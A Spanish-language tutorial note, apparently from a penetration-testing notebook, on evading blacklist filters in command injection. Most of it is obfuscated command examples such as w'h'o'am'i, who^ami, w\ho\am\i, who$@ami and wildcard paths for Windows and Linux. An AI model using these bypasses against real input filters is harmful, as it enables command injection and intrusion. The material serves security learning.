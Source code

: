 Como podemos ver, está comprobando cada palabra de la entrada del usuario para ver si coincide con alguna de las palabras de la lista negra. Sin embargo, este código busca una coincidencia exacta del comando proporcionado, por lo que si enviamos un comando ligeramente diferente, es posible que no se bloquee.

### BYPASS EN WINDOWS Y LINUX

Una técnica de ofuscación muy común y fácil es insertar ciertos caracteres dentro de nuestro comando que generalmente son ignorados por shells de comandos como `Bash` o `PowerShell` y ejecutarán el mismo comando como si no estuvieran allí. Algunos de estos caracteres son comillas simples y comillas `'`dobles `"`, además de algunos otros.

```bash
w'h'o'am'i

w"h"o"am"i
```

**Solo debemos recordar lo siguiente:**

>[!tip]
>**No podemos mezclar tipos de comillas y el número de comillas debe ser par.**

![[Pasted image 20221230102720.png]]

Como podemos ver, este método sí funciona.

### BYPASS SOLO EN WINDOWS

También hay algunos caracteres exclusivos de Windows que podemos insertar en medio de los comandos que no afectan el resultado, como un carácter de intercalación (`^`), como podemos ver en el siguiente ejemplo:

```bash
who^ami

powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

### BYPASS SOLO EN LINUX

Podemos insertar algunos otros caracteres exclusivos de Linux en medio de los comandos, y el shell `bash` los ignoraría y ejecutaría el comando. Estos caracteres incluyen la barra invertida `\` y el carácter de parámetro posicional `$@`. Esto funciona exactamente como lo hizo con las comillas.

>[!tip]
>En este caso no es necesario tener que colocar un valor par.

```bash
w\ho\am\i

who$@ami

who$()ami
who$(echo am)i
who`echo am`i

/usr/bin/p?ng # /usr/bin/ping
echo whoami|$0
```
